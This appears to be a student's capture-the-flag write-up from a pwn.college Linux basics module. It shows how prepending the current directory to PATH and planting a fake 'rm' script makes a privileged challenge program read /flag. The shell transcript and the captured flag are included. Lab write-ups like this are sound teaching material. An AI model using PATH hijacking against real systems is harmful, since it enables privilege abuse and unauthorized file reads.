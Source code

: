 # **PONDERING PATH**
## **<ins>HIJACKING COMMANDS</ins>**

With the help of learnings from previous challenges we find the flag.

### SOLVE: 
***FLAG:*** pwn.college{0Y7xl2ugxjgre9qfv3ByiiEwVrY.QX3cjM1wSO2kjNzEzW}

I made a shell script for rm and gave permissions to the user. I then added its path to the current directory.
Then on running /challenge/run I obtained the flag.

```
hacker@path~hijacking-commands:~$ echo "cat /flag" > rm
hacker@path~hijacking-commands:~$ chmod ugo+x rm
hacker@path~hijacking-commands:~$ export PATH="$(pwd):$PATH"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{0Y7xl2ugxjgre9qfv3ByiiEwVrY.QX3cjM1wSO2kjNzEzW}
```

### WHAT I LEARNED:
I learnt how to find the flag with various commands using rm and the PATH variable.

### REFERENCES:
None. 
